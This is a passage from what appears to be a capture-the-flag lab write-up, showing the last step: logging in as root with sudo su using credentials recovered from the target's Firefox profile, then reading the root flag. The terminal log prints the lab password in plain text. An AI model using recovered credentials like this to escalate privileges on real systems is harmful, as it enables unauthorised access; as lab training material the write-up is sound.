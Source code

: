 Upon trying a ```sudo su``` with the credentials ```minhtuan:skysayohyeah```, privilege escalation was successful.

```
minhtuan@ubuntu:~/.mozilla/firefox/fvbljmev.default-release$ sudo su
sudo su
[sudo] password for minhtuan: skysayohyeah

root@ubuntu:/home/minhtuan/.mozilla/firefox/fvbljmev.default-release#
```

Finally, the flag was obtained.

```
root@ubuntu:/home/minhtuan/.mozilla/firefox/fvbljmev.default-release# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
Amazing, goodjob you!
Thank you for going here

SunCSR Team

```
